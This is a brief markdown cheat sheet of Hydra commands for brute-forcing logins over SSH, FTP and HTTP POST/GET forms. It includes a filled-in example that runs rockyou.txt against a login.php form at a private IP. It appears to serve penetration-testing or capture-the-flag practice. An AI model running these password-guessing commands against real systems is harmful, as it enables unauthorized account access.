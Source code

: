 ## Hydra

### SSH
```
hydra -l <username> -P <wordlist> <ip_addr> -t 4 ssh
```

### FTP
```
hydra -L logins.txt -P passwords.txt ftp://192.168.100.1
hydra -l user -P passwords.txt 192.168.100.1 ftp
```

### HTTP POST Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-post-form "<path>:<login_credentials>:<invalid_response>" -v
-v #verbose
```
```
Example
```
hydra -L usernames.txt -P rockyou.txt 10.10.11.22 http-post-form \
"/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
```

### HTTP GET Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-get-form "<path>:<login_credentials>:<invalid_response>" -v
```


